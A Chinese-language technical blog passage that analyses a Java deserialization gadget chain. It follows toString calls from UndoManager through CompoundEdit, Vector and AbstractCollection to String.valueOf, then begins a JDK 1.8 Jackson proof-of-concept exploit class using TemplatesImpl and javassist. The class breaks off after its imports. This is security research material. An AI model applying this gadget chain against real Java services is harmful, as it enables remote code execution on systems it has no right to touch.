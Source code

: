 ### javax.swing.undo.UndoManager#toString
该类实现了 UndoableEditListener 接口
![](https://img-blog.csdnimg.cn/direct/21be756b87f94106a3df342ef9d2cec3.png)

而该接口继承了`java.util.EventListener`
![](https://img-blog.csdnimg.cn/direct/a8e8218517b34035a4f3d832c3607b87.png)

看到这个类的 toString 方法
![](https://img-blog.csdnimg.cn/direct/2b197b2f793b4d24910fed3aca9cf572.png)

limit 与 indexOfNextAdd 都是int类型，那么就跟进到父类
`javax.swing.undo.CompoundEdit#toString`
![](https://img-blog.csdnimg.cn/direct/80cceedc94be4c68b4dc5a7b10e637c7.png)

发现`protected Vector<UndoableEdit> edits;`，其余均是boolean类型，那么只能把希望寄托在 Vector 类了

### java.util.Vector#toString
![](https://img-blog.csdnimg.cn/direct/12273949b6344f4697ef659c1423e3be.png)

直接`super.toString();`，跟进`java.util.AbstractCollection#toString`
![](https://img-blog.csdnimg.cn/direct/27d2ab0d650347eb819beac6cfcf6f9e.png)

又是一个combo，即
```java
StringBuilder sb = new StringBuilder();
E e = it.next();
sb.append(e == this ? "(this Collection)" : e);
```
这里会调用到`java.lang.StringBuilder#append`
![](https://img-blog.csdnimg.cn/direct/c96befdc91114f7288dd2c9ab2b993b1.png)

`java.lang.String#valueOf`
![](https://img-blog.csdnimg.cn/direct/e5272b9dfabc4de988d3e7d31330aedf.png)

非常巧妙的一条链

给出JDK1.8的 jackson 利用链，POC：
```java
import com.fasterxml.jackson.databind.node.POJONode;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import javassist.ClassPool;
import javassist.CtClass;
import javassist.CtMethod;
import org.springframework.aop.framework.AdvisedSupport;

import javax.swing.event.EventListenerList;
import javax.swing.undo.UndoManager;
import javax.xml.transform.Templates;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.util.Base64;
import java.util.Vector;

public class jackson_EventListenerList {
    static {
        try {
```